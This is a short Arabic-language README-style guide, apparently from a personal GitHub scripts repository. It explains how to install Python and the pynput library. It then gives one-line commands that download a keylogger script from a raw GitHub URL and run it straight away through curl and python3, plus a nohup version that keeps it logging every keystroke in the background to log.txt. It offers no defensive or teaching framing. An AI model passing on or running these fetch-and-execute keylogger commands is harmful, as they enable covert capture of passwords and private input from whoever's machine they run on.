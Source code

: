 إذا لم يكن Python مثبتًا، يمكنك تثبيته باستخدام:

sudo apt update

sudo apt install python3


بعد ذلك، تحتاج إلى تثبيت مكتبة pynput التي سنستخدمها لتسجيل ضغطات المفاتيح:
pip3 install pynput

لتشغيل الـkeylogger، استخدم الأمر التالي:

python3 <(curl -s https://raw.githubusercontent.com/osama-mousa/python-scripts/main/keylogger.py)


لتشغيله في الخلفية دون إغلاق الجلسة، يمكنك استخدام أدوات مثل nohup:

nohup python3 <(curl -s https://raw.githubusercontent.com/osama-mousa/python-scripts/main/keylogger.py) &


سيبدأ البرنامج الآن في تسجيل كل ضغطة على لوحة المفاتيح في ملف log.txt :tada: :ninja:

